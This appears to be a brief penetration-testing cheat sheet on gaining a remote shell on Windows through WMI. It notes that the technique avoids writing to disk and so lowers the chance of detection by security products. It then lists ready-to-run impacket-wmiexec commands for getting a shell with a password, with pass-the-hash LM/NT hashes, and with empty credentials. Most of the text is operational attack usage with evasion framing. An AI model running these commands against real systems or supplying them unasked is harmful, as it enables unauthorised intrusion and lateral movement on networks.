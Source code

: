 ### WMI
>The advantage to this method is that it allows us to execute code without writing on the disk or creating a new system. The result is a lowered chance of detection by Windows Security Essentials and Bit9, for instance
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```
